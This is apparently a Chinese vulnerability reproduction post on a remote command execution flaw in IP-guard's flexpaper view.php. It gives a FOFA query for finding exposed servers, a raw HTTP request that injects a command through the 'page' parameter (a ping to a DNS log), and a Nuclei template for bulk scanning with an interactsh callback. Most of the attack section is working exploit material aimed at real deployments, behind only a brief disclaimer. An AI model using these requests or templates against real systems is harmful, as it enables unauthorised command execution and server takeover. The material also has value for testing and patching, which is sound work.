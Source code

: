 # 原创
：  漏洞复现--IP-guard flexpaper RCE

# 漏洞复现--IP-guard flexpaper RCE

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

IP-guard是由溢信科技股份有限公司开发的一款终端安全管理软件，旨在帮助企业保护终端设备安全、数据安全、管理网络使用和简化IT系统管理。该产品存在远程命令执行漏洞。攻击者可利用该漏洞执行任意命令直接获取服务器权限。

### 二：漏洞影响版本

IP-guard

### 三：网络空间测绘查询

fofa:<br/> `"IP-guard" &amp;&amp; icon_hash="2030860561"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/d2622193c56292b652b5edb17f12883a.jpeg"/>

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/b7a28d60c5a620483e8f7b4639200e17.jpeg"/><br/> POC:

```
GET /ipg/static/appr/lib/flexpaper/php/view.php?doc=11.jpg&amp;format=swf&amp;isSplit=true&amp;page=||ping%20DNSlog HTTP/1.1
Host: x.x.x.x
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: yourCookie
Connection: close

```

ping后加上dnslog验证。<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/1340d7c6af3b3c195ab5aa9ce7af0c23.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/fdbab1d37f12e2783be7a786419231b4.jpeg"/>

### 五：批量检测

```
id: ip-guard-webserver-rce

info:
  name: IP-Guard Webserver 远程命令执行
  author: xingyun
  severity: critical
  description: |
    IP-guard是由溢信科技股份有限公司开发的一款终端安全管理软件，旨在帮助企业保护终端设备安全、数据安全、管理网络使用和简化IT系统管理。
    IP-guard WebServer远程命令执行漏洞。攻击者可利用该漏洞执行任意命令，获取服务器控制权限。
    "IP-guard" &amp;&amp; icon_hash="2030860561"
  reference:
    - MDPOCS/Ip_Guard_Webserver_View_Rce_Poc.py at 35788...
  tags: rce,ipguard

http:
  - raw:
      - |
        GET /ipg/static/appr/lib/flexpaper/php/view.php?doc=11.jpg&amp;format=swf&amp;isSplit=true&amp;page=||ping%20{{interactsh-url}} HTTP/1.1
        Host: {{Hostname}}

    matchers-condition: and
    matchers:
      - type: word
        part: interactsh_protocol # Confirms the DNS Interaction
        words:
          - "dns"

    extractors:
      - type: kval
        kval:
          - interactsh_ip # Print remote interaction IP in output

```
